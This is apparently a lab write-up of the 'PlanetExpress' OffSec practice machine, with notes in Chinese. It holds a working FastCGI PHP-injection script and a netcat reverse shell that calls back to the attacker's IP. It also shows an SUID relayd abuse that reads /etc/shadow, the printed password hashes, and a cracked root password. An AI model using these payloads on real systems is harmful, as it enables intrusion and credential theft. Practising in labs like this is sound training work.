

###### tags: `Offsec` `PG Practice` `Easy` `Linux`

# PlanetExpress
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rustscan -a 192.168.158.205 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 192.168.158.205:22
Open 192.168.158.205:80
Open 192.168.158.205:9000

PORT     STATE SERVICE     REASON  VERSION
22/tcp   open  ssh         syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp   open  http        syn-ack Apache httpd 2.4.38 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-generator: Pico CMS
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: PlanetExpress - Coming Soon !
9000/tcp open  cslistener? syn-ack
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

dirsearch先掃
```
┌──(kali㉿kali)-[~/pgplay]
└─$ dirsearch -u http://192.168.158.205

Target: http://192.168.158.205/

[22:39:10] Starting:                                                                                                              
[22:39:48] 200 -  111B  - /.gitignore                                       
[22:41:31] 301 -  319B  - /assets  ->  http://192.168.158.205/assets/       
[22:41:57] 301 -  319B  - /config  ->  http://192.168.158.205/config/       
[22:41:58] 403 -  280B  - /config/                                           
[22:42:02] 301 -  320B  - /content  ->  http://192.168.158.205/content/     
[22:44:02] 301 -  320B  - /plugins  ->  http://192.168.158.205/plugins/
[22:44:23] 403 -  280B  - /server-status/                                   
[22:44:53] 301 -  319B  - /themes  ->  http://192.168.158.205/themes/       
[22:45:04] 403 -  280B  - /vendor/                                           
[22:45:04] 200 -    0B  - /vendor/composer/autoload_static.php               
[22:45:04] 200 -    0B  - /vendor/composer/ClassLoader.php
[22:45:04] 200 -    0B  - /vendor/composer/autoload_real.php
[22:45:04] 200 -   25B  - /vendor/composer/autoload_classmap.php
[22:45:04] 200 -    0B  - /vendor/composer/autoload_files.php
[22:45:04] 200 -   25B  - /vendor/composer/autoload_psr4.php
[22:45:04] 200 -    0B  - /vendor/autoload.php                               
[22:45:04] 200 -   25B  - /vendor/composer/autoload_namespaces.php
[22:45:05] 200 -    1KB - /vendor/composer/LICENSE                           
[22:45:05] 200 -   23KB - /vendor/composer/installed.json                                                          
Task Completed
```

ffuf再掃
```
┌──(kali㉿kali)-[~/pgplay]
└─$ ffuf -u http://192.168.158.205/config/FUZZ -w /home/kali/SecLists/Discovery/Web-Content/quickhits.txt -fw 20

.gitignore              [Status: 200, Size: 33, Words: 8, Lines: 2, Duration: 213ms]
config.yml              [Status: 200, Size: 812, Words: 96, Lines: 60, Duration: 215ms]
:: Progress: [2565/2565] :: Job [1/1] :: 125 req/sec :: Duration: [0:00:17] :: Errors: 0 ::
```

下載`192.168.158.205/config/config.yml`，裡面有個連結[Pico Plugins](https://github.com/picocms/Pico/tree/master/plugins)
```
...
##
# Plugins: https://github.com/picocms/Pico/tree/master/plugins
#
plugins_url: ~
DummyPlugin.enabled: false

PicoOutput:
  formats: [content, raw, json]

## 
# Self developed plugin for PlanetExpress
#
#PicoTest:
#  enabled: true
...
```

查看`http://192.168.158.205/plugins/PicoTest.php`



可以得到兩個存在路徑

[9000 - Pentesting FastCGI](https://book.hacktricks.xyz/network-services-pentesting/9000-pentesting-fastcgi)

要修改路徑為`planetexpress/index.php`
```bash
## fastcgi.sh
#!/bin/bash

PAYLOAD="<?php echo '<!--'; system('whoami'); echo '-->';"
FILENAMES="/var/www/html/planetexpress/index.php" # Exisiting file path

HOST=$1
B64=$(echo "$PAYLOAD"|base64)

for FN in $FILENAMES; do
    OUTPUT=$(mktemp)
    env -i \
      PHP_VALUE="allow_url_include=1"$'\n'"allow_url_fopen=1"$'\n'"auto_prepend_file='data://text/plain\;base64,$B64'" \
      SCRIPT_FILENAME=$FN SCRIPT_NAME=$FN REQUEST_METHOD=POST \
      cgi-fcgi -bind -connect $HOST:9000 &> $OUTPUT

    cat $OUTPUT
done
```

使用他，發現`system()`不能用，改成`passthru()`
```
┌──(kali㉿kali)-[~/pgplay]
└─$ ./fastcgi.sh 192.168.158.205

...
PHP message: PHP Warning:  system() has been disabled for security reasons in data://text/plain\;base64,PD9waHAgZWNobyAnPCEtLSc7IHN5c3RlbSgnd2hvYW1pJyk7IGVjaG8gJy0tPic7Cg== on line 1Content-type: text/html; charset=UTF-8
...

##改
PAYLOAD="<?php echo '<!--'; passthru('whoami'); echo '-->';"

┌──(kali㉿kali)-[~/pgplay]
└─$ ./fastcgi.sh 192.168.158.205

...
Content-type: text/html; charset=UTF-8

<!--www-data
--><!DOCTYPE html>
...
```

確認可以用之後，使用reverseshell，在`/home/astro`中找到local.txt
```
#改
PAYLOAD="<?php echo '<!--'; passthru('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.195 80 >/tmp/f'); echo '-->';"

┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap -cAr nc -nvlp80

┌──(kali㉿kali)-[~/pgplay]
└─$ ./fastcgi.sh 192.168.158.205

$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@planetexpress:/home/astro$ cat local.txt
97a1f6ea8234a9e2c917967e920bc509
```

找binary，有一個`/usr/sbin/relayd`
```
www-data@planetexpress:/tmp$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/sbin/relayd
...
```

可查看`help`之後嘗試讀取`/etc/shadow`，雖然error，但可以查看`/etc/shadow`
```
www-data@planetexpress:/tmp$ /usr/sbin/relayd -h
/usr/sbin/relayd -h
Usage: relayd [options] [actions]
Actions:
  default action      start daemon
  -h                  show this help message
  -v                  show version info
  -k                  kill running daemon
  -s                  get running status
  -U                  hup (reload configs)
  -a [service]        add service for relay
  -r [service]        remove service for relay
  -i                  get real client ip
  -b [up|down]        broadcast the DS boot state
  -R                  reopen the log file
Options:
  -C [file]           read config from file
  -d                  enable debug mode. will not run in background
  -P [file]           set pid file for daemon
  -g [ip]             remote source ip
  -n [port]           remote source port

www-data@planetexpress:/tmp$ /usr/sbin/relayd -C /etc/shadow
/usr/sbin/relayd -C /etc/shadow
[ERR] 2024-03-27 01:55:07 config.cpp:1539 write
[ERR] 2024-03-27 01:55:07 config.cpp:1213 open failed [/usr/etc/relayd/misc.conf.tmp.12217]
[ERR] 2024-03-27 01:55:07 config.cpp:1189 bad json format [/etc/shadow]
[ERR] 2024-03-27 01:55:07 invalid config file

www-data@planetexpress:/tmp$ cat /etc/shadow
cat /etc/shadow
root:$6$vkAzDkveIBc6PmO1$y8QyGSMqJEUxsDfdsX3nL5GsW7p/1mn5pmfz66RBn.jd7gONn0vC3xf8ga33/Fq57xMuqMquhB9MoTRpTTHVO1:19003:0:99999:7:::
daemon:*:18555:0:99999:7:::
bin:*:18555:0:99999:7:::
sys:*:18555:0:99999:7:::
sync:*:18555:0:99999:7:::
games:*:18555:0:99999:7:::
man:*:18555:0:99999:7:::
lp:*:18555:0:99999:7:::
mail:*:18555:0:99999:7:::
news:*:18555:0:99999:7:::
uucp:*:18555:0:99999:7:::
proxy:*:18555:0:99999:7:::
www-data:*:18555:0:99999:7:::
backup:*:18555:0:99999:7:::
list:*:18555:0:99999:7:::
irc:*:18555:0:99999:7:::
gnats:*:18555:0:99999:7:::
nobody:*:18555:0:99999:7:::
_apt:*:18555:0:99999:7:::
systemd-timesync:*:18555:0:99999:7:::
systemd-network:*:18555:0:99999:7:::
systemd-resolve:*:18555:0:99999:7:::
messagebus:*:18555:0:99999:7:::
sshd:*:18555:0:99999:7:::
systemd-coredump:!!:18555::::::
astro:$6$3c/stP2hxnireZRa$8Byaa52GnSq5BEVJtCrh2ZAKNSzYRvFuDEb2q2jk8hsJH91qQ6zgtUCxAZ.NgssBCJ7I8DURme/kd7MSkNl5f/:19003:0:99999:7:::
```

破出來切成root可至/root得到proof.txt
```
┌──(kali㉿kali)-[~/pgplay/PlanetExpress]
└─$ john root --wordlist=/home/kali/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
neverwant2saygoodbye (?)     
1g 0:00:03:22 DONE (2024-03-27 02:07) 0.004934g/s 4154p/s 4154c/s 4154C/s newme11..nevada99
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

www-data@planetexpress:/tmp$ su root
Password: neverwant2saygoodbye
root@planetexpress:/tmp# cd /root
root@planetexpress:~# ls
proof.txt
root@planetexpress:~# cat proof.txt
dc2fe5b3223f2579843dac8195754bc3
```
